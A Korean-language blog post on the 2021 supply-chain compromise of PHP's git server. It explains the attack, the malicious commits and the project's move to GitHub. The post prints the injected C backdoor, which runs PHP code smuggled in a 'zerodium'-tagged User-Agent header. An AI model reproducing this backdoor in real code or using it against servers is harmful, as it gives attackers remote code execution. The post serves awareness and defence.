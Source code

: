 ```yaml
---
layout: post
id: 20
title: "PHP의 Git 서버가 해킹되었습니다."
subtitle: "PHP가 공급망 공격에 피해를 입었습니다."
description: "PHP의 깃 서버인 git.php.net이 공급망 공격을 당해 앞으론 github이 메인으로 사용되어집니다."
type: "PHP"
created_at: "2021-03-29"
updated_at: "2021-03-29"
blog: true
text: true
author: "silnex"
post-header: true
header-img: "img/hacked-php.png"
order: 20
tags: ["php", "hacking", "supply-chain-attack"]
comments: true
---
```


> PHP 인터널 공지: [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)

# TR; TL;

PHP의 git 서버가 공급망 해킹에 당해 앞으로 php-src는 Github를 메인으로 사용합니다.  
하지만 여러분에 서버에 설치된 PHP가 취약한 것은 아닙니다.  
다만, `php-src`를 직접 컴파일하여 사용하시는 분은 악성 커밋([1](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d), [2](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a))이 소스코드에 포함되어 있는지 확인이 필요합니다.

# 공급망 공격? (Supply chain attack)

공급망 공격이란 기존의 어플리케이션이나, 서비스를 공격했던 방식이 아닌 어플리케이션 혹은 서비스에서 사용중인 vendor에 악성 코드를 심는 방식으로,
최근 오픈소스로 관리되어지는 vendor혹은 패키지의 수가 많아지고, 누구나 수정할 수 있는 점을 이용한 공격 방식입니다.

# PHP-src에 삽입된 악성 코드

```c
zval *enc;

if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
	(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
	convert_to_string(enc);
	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
		zend_try {
			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
		} zend_end_try();
	}
}
```
이 코드는 HTTP 헤더에 zerodium이 있을 때 User agent에 삽입된 PHP코드를 실행 시키는 악성 코드입니다.

근데 이 악성커밋의 작성자가 PHP 주요 개발자인 `Nikita Popov`계정과 `Rasmus Lerdorf`계정으로 푸시되어 있어 [PHP internals](https://news-web.php.net/php.internals)에서 많은 이야기가 오고 갔습니다.

Nikita Popov는 최종적으로 자체 git 서버가 아닌 기존에 미러용으로 사용하던 Github의 Repo에서 관리하기로 했으며, 개발자들에게 `2FA`를 사용하라고 권고 했습니다.

# 복구 및 피해 규모

악성 커밋은 모두 Revert 되었으며, 현재 모든 Repo에 대해서 악성 커밋을 확인하고 있다고 합니다.

PHP 보안팀과 Nikita Popov가 확인한 결과 악성 커밋이 완료된 후 Fork나 Clone된 경우가 있긴 하지만, 실제 릴리즈에는 포함되지 않는단고 전했습니다.  
또한 Nikita Popov는 해당 브랜치는 PHP 8.1 개발용 브랜치로 연말에 출시될 예정이였다고 합니다.

이후 기존의 git 서버는 폐기되고 Github로 이동된다고 합니다.

# 마치면서

공급망 공격에 대한 경각심을 불러 일으킬만한 아주 좋은 예시가 이번에 생긴것같습니다. (PHP가 아니였음 했지만.. ㅜ)

더욱이 기존 프로젝트들이 외부 패키지나 라이브러리를 많이 의존하고 있었는데, 
이후 자체 제작을 지향하거나, 패키지 도입에 신중히 고민할 필요성이 예전보다 더욱더 생긴 것 같습니다.